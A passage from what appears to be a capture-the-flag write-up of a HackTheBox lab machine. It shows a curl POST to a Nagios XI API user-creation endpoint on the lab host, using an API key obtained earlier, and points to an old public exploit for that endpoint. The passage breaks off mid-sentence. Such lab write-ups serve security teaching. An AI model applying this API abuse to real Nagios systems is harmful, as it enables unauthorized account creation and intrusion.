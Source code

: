 
Trying as a POST is promising:

    
    
    oxdf@hacky$ curl -X POST -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -s | jq .
    {
      "error": "Could not create user. Missing required fields.",
      "missing": [
        "username",
        "email",
        "name",
        "password"
      ]
    }
    

I can create a new user, but how does that help advance my access? Searching
for this endpoint returns a very old exploit:

![image-20240509073545924](../img/image-20240509073545924.png)

This exploit won’t work here, but it does show using this endpoint with the
following data:
